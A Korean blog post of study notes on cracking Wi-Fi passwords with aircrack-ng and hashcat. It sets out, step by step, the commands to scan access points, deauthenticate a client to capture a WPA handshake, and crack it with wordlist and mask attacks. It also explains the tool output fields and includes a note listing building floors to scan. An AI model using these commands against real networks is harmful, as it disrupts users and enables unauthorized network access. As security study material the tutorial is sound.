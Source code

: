 ```yaml
---
layout: post
title: Aircrack-ng
subtitle: 무선AP 해킹
author: 마준영
categories: etc
tags:
  - Aircrack-ng
---
```

# Aircrack
```shell
iwconfig #랜카드 이름 확인
sudo airmon-ng start wlan0 #monitor모드 실행, wlan0은 랜카드 이름
sudo airodump-ng wlan0 #스캔 실행
iw list | grep -A 10 Frequencies #랜카드가 주파수 대역이 되는지 확인 Frequencies에서 확인가능
sudo airodump-ng wlan0 --channel 36 #특정 5GHz 채널만 스캔
sudo airodump-ng wlan0 --band a #`--band a` : 5GHz 대역
sudo airodump-ng wlan0 --band abg #`--band abg` : 2.4GHz + 5GHz 전체
sudo airodump-ng wlan0 --band bg #`--band bg` : 2.4GHz전체
sudo airodump-ng wlan0 --band a -w [파일명] #파일로 저장
sudo airodump-ng -c 11 --bssid [공유기 맥주소] -w [저장될 파일명] wlan0 #타겟을 정한 후 채널을 고정하여 스캔하며 대기
sudo aireplay-ng --deauth 10 -a [공유기 맥주소] -c [클라이언트 맥주소] wlan0 #클라이언트의 연결을 강제 종료, 재연결되면 handshake 패킷을 딸 수 있다. deauth는  try횟수
sudo aircrack-ng [캡처파일].cap -w [워드리스트] #사전공격
```


## 🛰️ 상단: AP (Access Point) 정보 테이블

|항목명|의미|
|---|---|
|**BSSID**|AP의 MAC 주소 (무선 공유기의 고유 식별자)|
|**PWR**|수신 신호 세기 (Power) - 숫자가 작을수록(0에 가까울수록) 신호가 강함|
|**Beacons**|일정 간격으로 AP가 송신하는 비콘 패킷의 수|
|**#Data, #/s**|데이터 패킷 수 및 초당 전송 속도|
|**CH**|채널 번호 (해당 AP가 사용하는 Wi-Fi 채널)|
|**MB**|최대 전송 속도 (Mbps)|
|**ENC**|암호화 방식 (Encryption: WPA2, WPA3 등)|
|**CIPHER**|암호화에 사용되는 알고리즘 (예: CCMP, TKIP)|
|**AUTH**|인증 방식 (예: PSK = Pre-shared Key, SAE 등)|
|**ESSID**|네트워크 이름 (Wi-Fi SSID)|

## 📱 하단: 클라이언트(기기) 정보 테이블

|항목명|의미|
|---|---|
|**BSSID**|연결된 AP의 MAC 주소 (또는 Probe 중인 경우 NULL)|
|**STATION**|클라이언트(기기)의 MAC 주소|
|**PWR**|수신 신호 세기 (기기로부터 수신된 신호의 강도)|
|**Rate**|송수신 속도 (예: 6e-0은 6 Mbps)|
|**Lost**|손실된 패킷 수|
|**Frames**|수신된 프레임 수|
|**Notes**|기타 정보|
|**Probes**|클라이언트가 탐색 중인 SSID (연결하고자 하는 Wi-Fi 이름)|

PSK : Presharedkey, 인데 wifi가 미리 공유된 key값을 이용해서 크랙이 일반적임

SAE,MGT : 찾아보기

WEP, WAP, WAP2, WAP3
OPN

스캔할 층 4,6,7,19,25

Handshake 성공시 
![](/assets/images/posts/2025-03-26-aircrack/a04bfe866a566f081c5ff93c3e601a75_MD5.jpeg)

Crack 성공시
![](/assets/images/posts/2025-03-26-aircrack/a7623d10a8117b57a88d3995f81f0be8_MD5.jpeg)

# hashcat으로 크랙
딕셔너리 기반은 현실적이지 않은 것 같다.
hashcat으로 해보자.
```shell
aircrack-ng [파일이름].cap -J [출력파일명] #hasndshake가 있는 cap파일을 hashcat용으로 변환
hashcat -m 2500 -a 0 handshake.hccapx /usr/share/wordlists/rockyou.txt #안된다
```
- `-m 2500` → WPA/WPA2 (hccapx 포맷)
    
- `-a 0` → 사전(dictionary) 공격
    
- `handshake.hccapx` → 대상 해시 파일
    
- `/usr/share/wordlists/rockyou.txt` → 워드리스트 경로

뭔가 .cap에서 hashcat용으로 변환할때 문제가 있었던 것 같다.
전용 툴을 이용해서 변환해보자.
```shell
hcxpcapngtool -o [만드려는 파일명].hccapx [cap파일].pcapng #특이하게 원본 파일명이 뒤에옴
hcxpcapngtool -o home-01.22000 home-01.cap #확장자는 hccapx든 22000이든 상관 없는듯
hashcat -m 2500 -a 0 handshake.hccapx /usr/share/wordlists/rockyou.txt #만든 파일로 워드리스트 크랙하기, 2500은 구버전이라 안되는거같다. 22000으로 하는게 좋을듯
hashcat -m 22000 -a 3 home-01.22000 ?u?u?u?u?d?d?d?d #마스크공격 예시
```

| 옵션         | 의미                                          |
| ---------- | ------------------------------------------- |
| `-m 0`     | MD5                                         |
| `-m 100`   | SHA1                                        |
| `-m 22000` | **WPA/WPA2 (EAPOL + PMKID)** 👉 우리가 지금 쓰는 거 |
| `-m 2500`  | WPA/WPA2 (구버전 hccapx, 현재는 deprecated)       |
| `-m 3000`  | LM (Windows old password hash)              |
| `-m 1000`  | NTLM (Windows 로그인 해시)                       |

| 옵션     | 공격 방식                     | 설명                   |
| ------ | ------------------------- | -------------------- |
| `-a 0` | **Wordlist (Dictionary)** | 워드리스트에 있는 단어들로 대입 공격 |
| `-a 1` | Combination               | 두 워드리스트를 조합해서 시도     |
| `-a 3` | **Brute-force (마스크 공격)**  | 직접 문자 조합을 정의해서 전수조사  |
| `-a 6` | Hybrid Wordlist + Mask    | 단어 + 마스크 조합          |
| `-a 7` | Hybrid Mask + Wordlist    | 마스크 + 단어 조합          |
